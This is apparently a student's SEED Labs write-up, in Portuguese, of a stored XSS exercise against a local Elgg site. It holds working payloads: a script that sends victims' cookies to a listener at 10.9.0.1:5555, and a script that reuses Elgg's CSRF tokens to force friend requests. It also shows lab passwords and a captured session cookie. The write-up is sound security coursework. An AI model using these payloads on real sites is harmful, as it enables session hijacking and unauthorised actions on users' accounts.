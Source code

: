 # Trabalho realizado na Semana #7

## Questão 1
### Configuração básica

- De forma a tornar este lab possível, temos de adicionar as entradas indicadas pelo guião, no ficheiro `/etc/hosts/`, utilizando o comando `nano`, por exemplo, a partir da root.

![xss lab websites](resources/LOGBOOK7/xss_websites.png)   

- Seguidamente, após o download do _zip_ deste lab, corremos os comandos `dcbuild` e `dcup` de forma a executarmos os containers de docker.

Desta forma, conseguimos ter acesso à pagina `www.seed-server.com`:

![Elgg webpage](resources/LOGBOOK7/elgg_webpage.png)

De forma a testarmos os ataques, também nos é fornecido os utilizadores e as suas respectivas _passwords_ desta webpage.

| UserName | Password    |
|----------|-------------|
| admin    | seedelgg    |
| alice    | seedalice   |
| boby     | seedboby    |
| charlie  | seedcharlie |
| samy     | seedsamy    |


### Tarefa 1 : Posting a Malicious Message to Display an Alert Window

- Como referido no título desta tarefa, o nosso objectivo é conseguirmos executar um script a mostrar uma mensagem maliciosa. Para isso, podemos inserir o seguinte código malicoso, `<script>alert('XSS');</script>`, num dos `forms` do nosso utilizador.

![message script gif](resources/LOGBOOK7/message_script.gif)

Neste caso inserimos o **script malicioso** no perfil da **alice**, na secção _brief description_, e realmente verificamos que para qualquer utilizador, esta mensagem será mostrada.


### Tarefa 2 :  Posting a Malicious Message to Display Cookies

- Tal como na task anterior,o nosso objectivo é mostrar uma mensagem, mas neste caso com as cookies do utilizador. Para tal, inserimos o script malicioso `<script>alert(document.cookie);</script>`, num dos `forms` do nosso utilizador.

![cookie message gif](resources/LOGBOOK7/cookie_message.gif)


Da mesmo maneira que demos _display_ da mensagem `XSS`, agora aparecem as cookies do utilizador _logado_ ao aceder ao perfil da alice.


### Tarefa 3: Stealing Cookies from the Victim’s Machine

- Nesta _task_, o nosso objectivo é conseguir as cookies de outro utilizador através do _script_ que o guião nos fornece. Como tal, inserimos novamente o _script_ malicioso numa das secções do nosso _utilizador_ e esperamos que um dos outros _utilizadores_ aceda ao nosso perfil.

Código malicioso:
```html
<script>
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

Execução do ataque:

![steal cookies gif](resources/LOGBOOK7/steal_cookies.gif)

Como podemos verificar, conseguimos roubar as cookies do **boby**, sendo estas `3D9d15l2p41o2d4cn61u9a99j2qf`, através do acesso do perfil da **alice**.


### Tarefa 4: Becoming the Victim’s Friend

- De forma a concluirmos esta tarefa, é nos fornecido um script, ainda incompleto, com a intenção de sermos nós a procurar como podemos obter o _url_ do **HTTP request**  a ser enviado, após enviar um _friend request_ a um dos utilizadores.

- Para conseguirmos visualizar o _request_ a ser feito, utilizamos a ferramenta **HTTP Header Live** que nos indica qualquer request feito após uma ação do utilizador.

Neste caso, inspecionamos o _request_ feito após o envio de um pedido de amizade.

_URL_ Pedido de amizade:

![steal cookies gif](resources/LOGBOOK7/friend_request_url.gif)

Conseguimos obter o url `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog`.

Sendo assim, o nosso _URL_ do nosso script tem de ter um formato semelhante a esse.

Script utilizado:
```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.

    var friendId = "59"  // Id of the friend to add
    var sendurl= "http://www.seed-server.com/action/friends/add?friend=" + friendId + ts + token; 

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
Para saber o id do utilizador `samy`, apenas precisamos de inspecionar o perfil dele na lista de membros. 

![user id](resources/LOGBOOK7/user_id.png)

Verificamos assim que o seu id é `59`.


Como tal, agora apenas precisamos de adicionar o script no perfil do `samy`, neste caso na secção `About Me`,  e qualquer utilizador que vá ao perfil dele ficará automaticamente amigo dele.


Demonstração do script:

![automatic friend gif](resources/LOGBOOK7/automatic_friend.gif)

Como podemos verificar, o utilizador `boby` fica amigo do `samy` mal entre no perfil dele, sem sequer adicioná-lo. 

- **Pergunta 1**: Explica o propósito das linhas ➀ e ➁, e o porquê de serem necessárias?

Estas linhas são necessárias, visto que, `token` refere-se ao token de segurança verdadeiro gerado pelo sistema, que garante a requesição legítima do request,sendo este único para cada sessão. Para além disso, `ts` refere-se ao momento em que o token foi gerado com o objectivo de confirmar que houve um _request_ recentemente. 
Sendo assim, para criar um request válido precisamos destas duas componentes no nosso _url_.

- **Pergunta 2**: Se a aplicação Elgg apenas fornecer o modo de Editor para o campo _About Me_, ou seja, se não for possível alternar para o modo de Texto, ainda seria possível lançar um ataque com sucesso? 

Muito dificilmente conseguiriamos um ataque bem sucedido, visto que, o mais provável é o modo de Editor "sanitizar" o conteúdo, de forma a impedir a injeção de scripts maliciosos.


## Questão 2

- **Há várias modalidades de ataques XSS (Reflected, Stored ou DOM). Em qual/quais pode enquadrar este ataque e porquê ?**

O ataque é `Stored XSS`, pois o script malicioso é armazenado no servidor (no campo do utilizador) e executado automaticamente quando a página do perfil dele é carregada. Não é `Reflected XSS`, pois o script não é refletido na resposta imediata do servidor, e não é `DOM-based XSS`, pois o código não é manipulado dinamicamente no DOM após a interação do utilizador.

